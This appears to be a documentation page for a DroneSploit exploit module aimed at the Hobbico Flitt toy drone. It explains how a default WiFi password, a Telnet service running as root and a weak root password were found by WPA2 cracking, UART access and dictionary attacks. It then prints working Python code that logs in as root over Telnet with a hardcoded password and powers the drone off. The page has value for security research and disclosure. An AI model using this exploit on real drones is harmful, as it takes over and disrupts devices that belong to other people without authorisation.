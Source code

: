 ## Security issues

This attack results from 3 security issues :

- Default WiFi password.
- A Telnet service is permanently running as root.
- The root user has a too weak password.

## Telnet password recovery

A WPA2-PSK classical guessing attack was achieved using the Aircrack-NG suite, leading to the discovery of the WiFi password.

An online dictionary attack was attempted using the RockYou list but was unrealistic because of the low battery (only a few hundreds attempts possible per uptime period).

So, an exposed UART interface was connected through a serial port to get a root shell directly on the hardware, therefore allowing to visit the OS and to grab hashes for cracking.

An offline dictionary attack using the RockYou wordlist allowed to recover the Telnet root password.

## DroneSploit module

A proxy class was made to implement Flitt's default configuration options to give the `FlittModule` class (see `dronesploit/lib/drones/hobbico.py`). `FlittTelnetModule` inherits this with an additional method for sending Telnet commands, `send_telnet_command(cmd)`.

```python
class FlittTelnetModule(FlittModule):
    """ Module proxy class holding the method for executing Telnet commands. """
    config = Config({
        Option(
            'PASSWORD',
            "Telnet password",
            True,
        ): "ev1324",
    })
    path = "exploit/hobbico/flitt"
    requirements = {'python': ["telnetlib"]}
    
    def send_telnet_command(self, cmd):
        from telnetlib import Telnet
        self.logger.debug("Starting a Telnet session...")
        t = Telnet(self.config.option("IP").value)
        self.logger.debug("[SRV] " + t.read_until(b"login: ").decode("utf-8"))
        self.logger.debug("[CLT] " + "root")
        t.write(b"root\n")
        self.logger.debug("[SRV] " + t.read_until(b"assword: ").decode("utf-8"))
        pswd = self.config.option("PASSWORD").value
        self.logger.debug("[CLT] " + pswd)
        t.write(pswd.encode("utf-8") + b"\n")
        resp = t.read_until(b"~ # ")
        self.logger.debug("[SRV] " + resp.decode("utf-8"))
        success = False
        if b"Welcome to HiLinux." in resp:
            self.logger.debug("[CLT] " + cmd)
            t.write(cmd.encode("utf-8") + b"\n")
            self.logger.success("Telnet command sent")
            success = True
            self.logger.debug("[CLT] exit")
            t.write(b"exit\n")
            t.read_all()
        else:
            self.logger.failure("Bad Telnet password")
        t.close()
        return success
```

The module is finally :

```python
class TelnetDos(FlittTelnetModule):
    """ Power off the target Flitt through Telnet.
    
    Author: Alexandre D'Hondt
    Email:  alexandre.dhondt@gmail.com
    
    Note that this will "power off" ToyBox, the OS on the drone, but this will
     not shutdown the drone completely.
    """
    def run(self):
        self.logger.info("Powering off the target...")
        self.send_telnet_command("poweroff -d 1")
```
